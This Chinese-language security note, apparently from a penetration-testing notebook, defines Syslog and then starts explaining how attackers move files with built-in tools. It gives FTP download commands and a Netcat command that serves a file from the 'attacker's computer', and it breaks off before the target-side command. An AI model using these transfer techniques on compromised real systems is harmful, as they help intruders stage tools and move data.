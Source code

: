 ## Syslog

> [Syslog - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/zh-hans/Syslog)
>
> [关于 syslog 你要知道的一切 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/62793386)

Syslog(System Logging Protocol)是一种用于从各种网络设备以特定格式发送和接收通知消息的标准协议。

这些消息包括时间戳、事件消息、严重性、主机IP地址、诊断等。Syslog可以用于记录设备的日志，监控系统的状态，报告故障或警告，分析网络性能等。

Syslog协议通常用于实现系统监控、故障排除、安全审计以及日志记录和分析。

---

## 下载文件

> [命令行终端下载指令大全 | DeepinWiki](https://wiki.deepin.org/zh/05_HOW-TO/07_系统技巧分享/命令行终端下载指令大全)

---

### 系统自带软件/工具下载

#### FTP

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```bash
ftp 127.0.0.1
username
password
get file
exit
```

当然根据实际情况也可以进入交互终端：

```bash
ftp 192.168.3.2
输入用户名和密码后
lcd E:\file # 进入E盘下的file目录
cd www # 进入服务器上的www目录
get access.log # 将服务器上的access.log下载到E:\file
```

---

#### Netcat

攻击者的电脑上输入:

```bash
cat file | nc -l 1234
```

> 这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令:
